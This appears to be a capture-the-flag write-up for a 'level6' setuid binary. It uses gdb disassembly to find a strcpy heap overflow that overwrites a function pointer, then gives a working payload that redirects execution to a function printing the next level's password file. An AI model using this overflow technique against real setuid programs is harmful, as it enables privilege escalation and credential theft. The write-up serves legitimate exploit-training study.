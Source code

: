 # Search

```
$ ls -l
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6

$ ./level6 
Segmentation fault (core dumped)

$ ./level6 aaaaaaaaaaaaaaa
Nope

$ ./level6 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

# Analyze with gdb

```
(gdb) disas main
   0x0804847c <+0>:     push   %ebp
   0x0804847d <+1>:     mov    %esp,%ebp
   0x0804847f <+3>:     and    $0xfffffff0,%esp
   0x08048482 <+6>:     sub    $0x20,%esp
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
   0x080484d2 <+86>:    leave  
   0x080484d3 <+87>:    ret    

<!-- There is call to an address, it look like a function address -->

(gdb) info function
...
0x08048454  n
0x08048468  m
...

<!-- there is 2 non called functions -->

(gdb) disas n
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave  
   0x08048467 <+19>:    ret    
(gdb) x/s 0x80485b0
0x80485b0:       "/bin/cat /home/user/level7/.pass"

<!-- This function call system with arg /bin/cat /home/user/level7/.pass -->

(gdb) disas m
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave  
   0x0804847b <+19>:    ret    

<!-- This function call puts whith arg "Nope" -->
```

after analyzing the code we know that we have to call ```n``` function\
if we put a bpoint at main+84 we can see that the adress of eax is 
```
info reg eax
eax            0x8048468        134513768
```
wait a minute is this the adress of m function ??\
YES so we have to replace this by the n function
- n address = ```0x08048454``` -> for payload in little endian -> ```\x54\x84\x04\x08```
- find the offset of eip, we already did this using [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

## find offset

```
(gdb) start Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

(gdb) step
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.

(gdb) info reg eip
eip            0x41346341       0x41346341
```

0x41346341 -> offset 72

## Payload

```$(python -c "print('a'*72 + '\x54\x84\x04\x08')")```
so
```
$ ./level6 $(python -c "print('a'*72 + '\x54\x84\x04\x08')")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```